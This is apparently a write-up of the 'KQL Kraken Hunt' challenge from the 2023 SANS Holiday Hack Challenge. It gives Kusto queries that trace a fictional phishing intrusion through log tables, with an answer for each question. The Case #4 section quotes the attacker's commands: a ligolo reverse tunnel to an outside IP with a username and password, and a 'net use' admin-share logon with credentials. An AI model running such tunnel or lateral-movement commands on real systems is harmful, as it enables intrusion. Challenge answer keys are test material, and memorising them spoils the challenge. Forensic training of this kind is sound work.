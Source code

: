 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## KQL Kraken Hunt
Difficulty: :christmas_tree::christmas_tree:  
Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

### Hints
#### Outbound Connections
*From: Tangle Coalbox*
Do you need to find something that happened via a process? Pay attention to the ProcessEvents table!
#### KQL Tutorial
*From: Tangle Coalbox*
Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue Train me for the case button to get familiar with KQL.
#### File Creation
*From: Tangle Coalbox*
Looking for a file that was created on a victim system? Don't forget the FileCreationEvents table.

### Solution
#### Onboarding
*Question*: How many Craftperson Elf's are working from laptops? 

*Query*:
```kql
Employees 
| where role == "Craftsperson Elf" and hostname contains "LAPTOP"
| summarize count()
```

*Answer*: `25`

#### Case #1
*Question*: 
1) What is the email address of the employee who received this phishing email?
2) What is the email address that was used to send this spear phishing email?
3) What was the subject line used in the spear phishing email?

*Query*:
```kql
Email
| where link contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project recipient, sender, subject
```

*Answer*: 
| recipient | sender | subject |
| ------------------------------------------------ | ------------------ | -------------------------------- |
| alabaster_snowball@santaworkshopgeeseislands.org | cwombley@gmail.com | \[EXTERNAL\] Invoice foir reindeer food past due |

#### Case #2
*Question*: 
1) What is the role of our victim in the organization?
2) What is the hostname of the victim's machine?
3) What is the source IP linked to the victim?

*Query*:
```kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
| project role, hostname, ip_addr
```

*Answer*: 
| role     | hostname     | ip_addr   | 
| -------- | ------------ | --------- |
| Head Elf | Y1US-DESKTOP | 10.10.0.4 |

#### Case #3
*Question*: 
1) What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!
2) What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

*Query for question 1*:
```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.4" and url contains "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
| project timestamp
```

*Answer for question 1*: `2023-12-02T10:12:42Z`

*Query for question 2*:
```kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z") and filename != "MonthlyInvoiceForReindeerFood.docx"
| limit 1
| project filename
```

*Answer for question 2*: `giftwrap.exe`

#### Case #4
*Question*: 
1) The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?
2) What is the timestamp when the attackers enumerated network shares on the machine?
3) What was the hostname of the system the attacker moved laterally to?

*Query*:
```kql
ProcessEvents
| where hostname == "Y1US-DESKTOP" and timestamp > datetime("2023-12-02T10:12:42Z")
```

*Answer for question 1*:   
This took a little manual analysis, eventually identifying the command:
```bash
cmd.exe "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```

*Answer for question 2*:  
This took a little manual analysis, eventually identifying a `net share` command at `2023-12-02T16:51:44Z`

*Answer for question 3*:  
This took a little manual analysis, eventually identifying the command:
```bash
cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123
```